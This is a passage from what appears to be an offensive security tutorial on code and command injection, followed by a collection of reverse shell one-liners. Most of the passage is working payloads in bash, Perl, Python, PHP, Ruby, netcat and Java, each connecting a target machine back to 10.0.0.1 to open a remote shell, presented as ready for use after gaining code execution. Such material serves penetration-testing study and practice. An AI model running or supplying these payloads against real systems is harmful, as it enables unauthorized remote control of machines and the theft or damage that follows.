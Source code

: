 ## Code and Command Injection
On some occasions, you may come across web applications which allow execution of code directly. This comes in many forms, it may be a Wordpress backend (which by default, allows the editing of PHP files), a web based terminal emulator, a PHP/Python/Perl sandbox, or some kind of online tool which runs a system command with user input and displays the output.

There are too many avenues to explore here, but use your imagination. Try to think about how the code may look on the backend, and how you might be able to inject your own commands.

I’ve got command execution, now what?
If you’ve found some kind of code execution vulnerability, it’s time to upgrade to a shell.

## Reverse Shells
A reverse shell is when you make your target machine connect back to your machine and spawn a shell. Popping a shell is the most exciting part of any hack.

NOTE: Most versions of netcat don’t have -e built-in

If you’re not sure what -e does, it lets you specify a command to pipe through your reverse shell. There’s a good reason that it’s disabled on most versions of netcat — it’s a gaping security hole. Having said that, if you’re attacking a linux machine, you can get around this by using the following reverse shell one-liner.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
Which will pipe /bin/sh back to 10.0.0.1 on port 1234, without using the -e switch. This brings us to the next section nicely.

A collection of Linux reverse shell one-liners
These one-liners are all found on pentestmonkey.net. This website also contains a bunch of other useful stuff!
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Netcat with -e
nc -e /bin/sh 10.0.0.1 1234

Netcat without -e (my personal favourite)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
